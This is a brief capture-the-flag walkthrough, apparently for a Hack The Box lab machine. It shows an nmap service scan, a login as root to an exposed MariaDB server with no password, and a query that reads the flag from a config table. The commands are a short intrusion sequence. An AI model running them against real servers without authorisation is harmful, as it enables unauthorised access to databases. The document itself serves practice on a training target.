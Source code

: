 1. **Scan all the ports and default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 3306/tcp - open - mysql
--> MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1


2. **Use "mysql" to get into the machine database with the "root" user**
```bash
mysql -h [target ip] -u root
```
--> **MACHINE PWNED!**

3. **Move inside the machine and Capture the flag**
```bash
MariaDB [{none}]> SHOW databases;
DATABASES: htb / information / mysql

MariaDB [{none}]> USE htb;
DATABASE CHANGED

MariaDB [htb]> SHOW tables;
TABLES IN HTB: config / users

MariaDB [htb]> SELECT * FROM config;
flag - [flag]
```
--> That's it!